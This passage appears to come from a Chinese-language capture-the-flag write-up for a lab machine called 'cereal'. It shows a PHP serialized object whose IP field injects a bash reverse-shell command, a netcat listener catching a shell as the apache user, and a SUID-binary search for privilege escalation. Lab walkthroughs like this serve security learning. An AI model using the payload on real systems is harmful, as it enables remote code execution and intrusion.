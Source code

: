 ```
O:8:"pingTest":3:{s:9:"ipAddress";s:63:"127.0.0.1;bash -c 'bash -i >& /dev/tcp/192.168.0.102/1314 0>&1'";s:7:"isValid";b:1;s:6:"output";s:0:"";}
```

<img src=".\图片\Snipaste_2022-12-02_12-26-56.png" alt="Snipaste_2022-12-02_12-26-56" style="zoom:80%;" />

```
┌──(root💀kali)-[~]
└─# nc -lvvp 1314              
listening on [any] 1314 ...
connect to [192.168.0.102] from cereal.ctf [192.168.0.104] 39998
bash: cannot set terminal process group (948): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

Apache的权限

### 提权：

```
bash-4.4$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/sbin/grub2-set-bootflag
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/lib/polkit-1/polkit-agent-helper-1
```